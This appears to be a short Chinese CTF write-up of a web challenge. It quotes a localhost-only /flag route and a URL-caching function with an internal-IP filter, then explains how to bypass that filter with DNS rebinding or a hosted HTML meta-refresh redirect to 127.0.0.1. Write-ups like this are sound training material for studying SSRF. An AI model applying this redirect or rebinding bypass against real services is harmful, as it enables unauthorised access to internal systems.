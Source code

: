 ## 分析

```python
@web.route('/flag')
@is_from_localhost
def flag():
    return send_file('flag.png')
```

这里需要从本地发起的请求才能获得`flag`

```python
def cache_web(url):
    scheme = urlparse(url).scheme
    domain = urlparse(url).hostname

    if not domain or not scheme:
        return flash(f'Malformed url {url}', 'danger')
        
    if scheme not in ['http', 'https']:
        return flash('Invalid scheme', 'danger')

    def ip2long(ip_addr):
        return struct.unpack('!L', socket.inet_aton(ip_addr))[0]
    
    def is_inner_ipaddress(ip):
        ip = ip2long(ip)
        return ip2long('127.0.0.0') >> 24 == ip >> 24 or \
                ip2long('10.0.0.0') >> 24 == ip >> 24 or \
                ip2long('172.16.0.0') >> 20 == ip >> 20 or \
                ip2long('192.168.0.0') >> 16 == ip >> 16 or \
                ip2long('0.0.0.0') >> 24 == ip >> 24
    
    if is_inner_ipaddress(socket.gethostbyname(domain)):
        return flash('IP not allowed', 'danger')
    
    return serve_screenshot_from(url, domain)
```

`cache_web` 函数会发起一个请求并且把内容缓存下来。

这道题的思路可以使用`dns rebind`，或者也可以在我们的服务器上保存一个`index.html`文件，内容如下，这样当我们缓存的时候，加载`HTML`重定向到本地

```HTML
<META http-equiv=refresh content="0; URL=http://127.0.0.1/flag">
```

# 参考链接

[https://lock.cmpxchg8b.com/rebinder.html](https://lock.cmpxchg8b.com/rebinder.html)